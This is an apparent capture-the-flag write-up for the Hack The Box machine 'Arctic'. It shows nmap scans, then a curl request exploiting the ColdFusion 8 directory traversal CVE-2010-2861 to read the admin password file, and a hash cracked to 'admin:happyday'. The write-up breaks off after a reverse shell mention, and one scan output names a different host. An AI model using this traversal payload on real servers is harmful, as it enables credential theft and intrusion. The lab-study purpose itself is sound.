# Arctic (`10.10.10.11`)

## Summary

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -p- --min-rate 10000 -Pn arctic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.059s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.95 seconds

$ sudo nmap -A -v -p 135,8500,49154 -Pn -oA allports silo.htb
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for silo.htb (10.10.10.82)
Host is up.

PORT      STATE    SERVICE VERSION
135/tcp   filtered msrpc
8500/tcp  filtered fmtp
49154/tcp filtered unknown
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

NSE: Script Post-scanning.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.12 seconds
           Raw packets sent: 144 (9.456KB) | Rcvd: 0 (0B)
```

### Port 8500



Looks like an `Adobe Coldfusion 8` install.





I use `CVE-2010-2861` to extract the password, using an exploit found here: https://www.exploit-db.com/exploits/14641

```bash
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

$ curl http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```





I feed the hashed password to `john` to crack it.





`admin:happyday` should let me in.



It does.





I generate a reverse shell.



And give up on this machine because it's timing out.

## Reverse Shell

## Upgrading Shell

## Privilege Escalation
